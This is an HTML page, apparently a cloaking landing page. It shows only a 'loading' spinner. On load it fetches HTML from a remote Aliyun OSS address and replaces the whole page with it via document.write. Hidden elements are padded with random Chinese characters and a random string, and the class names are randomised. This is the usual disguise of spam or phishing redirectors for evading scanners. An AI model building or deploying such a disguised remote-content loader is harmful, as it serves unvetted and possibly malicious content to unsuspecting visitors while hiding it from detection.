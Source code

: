         <!DOCTYPE html>
<html>
<head> <meta charset="utf-8" />
    <style>
        iframe {
            display: none;
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        body {
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        .B9wgDa2R8 {
            position: fixed;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            z-index: 1;
            background-color: #d8d8d8
        }

        .B9wgDa2R8 .pz7x2M63gMC {
            position: absolute;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            height: 50px;
            margin: auto
        }

        .B9wgDa2R8 .content {
            line-height: 50px;
            text-align: center
        }

        .B9wgDa2R8 .img {
            width: 100%
        }

        .B9wgDa2R8 .m6wJvj94 {
            text-align: center
        }

        .B9wgDa2R8 .m6wJvj94 span {
            display: inline-block;
            width: 6px;
            height: 50px;
            background-color: #FF5722;
            -webkit-transform: scaleY(0.4);
            transform: scaleY(0.4);
            -webkit-animation: scale 1s infinite;
            animation: scale 1s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(2) {
            -webkit-animation: scale 1s .2s infinite;
            animation: scale 1s .2s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(3) {
            -webkit-animation: scale 1s .3s infinite;
            animation: scale 1s .3s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(4) {
            -webkit-animation: scale 1s .4s infinite;
            animation: scale 1s .4s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(5) {
            -webkit-animation: scale 1s .5s infinite;
            animation: scale 1s .5s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(6) {
            -webkit-animation: scale 1s .6s infinite;
            animation: scale 1s .6s infinite
        }

        @-webkit-keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        @keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        .B9wgDa2R8 .tips {
            font-size: 1rem;
            color: #fff;
            text-align: center
        }
    </style>
</head>
<body><script>
    function loadJs(a) { var c = document.createElement("script"); c.src = a, document.body.appendChild(c);}
    function getUrlParam(name) { var reg = new RegExp("(.|&)" + name + "=([^&]*)(&|$)"); var r = window.location.href.match(reg); if (r != null) return unescape(r[2]); return null;}
    function Dget(e, t,a) {
        var n = new XMLHttpRequest;
        //n.timeout = 3000;
        n.onreadystatechange = function () {
            4 === n.readyState && (200 === n.status || 304 === n.status ? "function" == typeof t && t(n.responseText) : "function" == typeof a && a(n))
        };n.ontimeout = function (e) {
            //alert('请求超时,重新发起请求');
            //location.reload();
        };
        n.open("GET", e, !0),
            n.send(null)
    }
    var temp = getUrlParam('temp');

    //if(document.referrer){
    var temp_name = temp +'.html';
    Dget('//20200805hb.oss-cn-hangzhou.aliyuncs.com/0904/sztwoxxsqwefer.html',function(res){
        var doc=document.open("text/html","replace")
        doc.write(res);
        doc.close()
    })
    //}

</script> 
<li style='display:none' >镁恢归芯新镣剁洗啦喊究淳些涣颅镭澎棉梳项技撤梢凡何粹叔病烈醒会雇开谋枷绍法贤崔铺汀搽萝什撤丘烩嘛孰桥释床受肮叹街疏徒粉睹曝胁潘鸡匠双煤净定噬蜡郴守宝郝酶淑私揉廓诫锯睹念渤地侮</li>
<b style='display:none' >窝栏嗓猎焚府哎驳恨赣问度奋泼袒熄咯合煞棚申跨仇础彻切探屑害牡沏娃</b>
<div style='display:none'>荣炮申廷瞳虽甜郡绷皑建挞柑辉退疟梢磋纪能孰撬田艰乳士外邢拷岁弘券慷腿驴财貉脸纳囊怜恫掣磨性形鸵恳离凰从判猩惦</div>
<img  src='' style='display:none'>
<a  href='#' style='display:none'>bbYy0cYKZhISx1PlDAxDUsDLHLaesQIMOfANaJzrb0tKKVYgwdDchRHUmBhON9fJEUy6Zs87v1qiL7DXJPuACWPJ</a>
<p  style='display:none'>尾裸补婆斜蛇蠢欣胚急柬弊伎傅埔里别抬款炮嫩卯窗澜挛钱困铜擦立袜迸委羔贝夺伶疲袍藕前损沃酷河蹭戮瞄谷零杀横颧南雄构丁厩咆梦当还沦逢裂的哇奢沫垢</p>
<span style='display:none'>窃棚嘶胃罢木端极季囤倍逃脚仟餐类户睛篱散瘦场惨昧频粕湍妹洁宛柑椿</span>
<b style='display:none' >窝栏嗓猎焚府哎驳恨赣问度奋泼袒熄咯合煞棚申跨仇础彻切探屑害牡沏娃</b><div class="B9wgDa2R8">
    <div class="pz7x2M63gMC">
        <div class="m6wJvj94">
            <p style="font-size:50px;color:#FF5722; padding-top: 18%; margin:-28% auto">正在加载...</p>

            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span></div>

    </div>
</div>
</body>

</html>
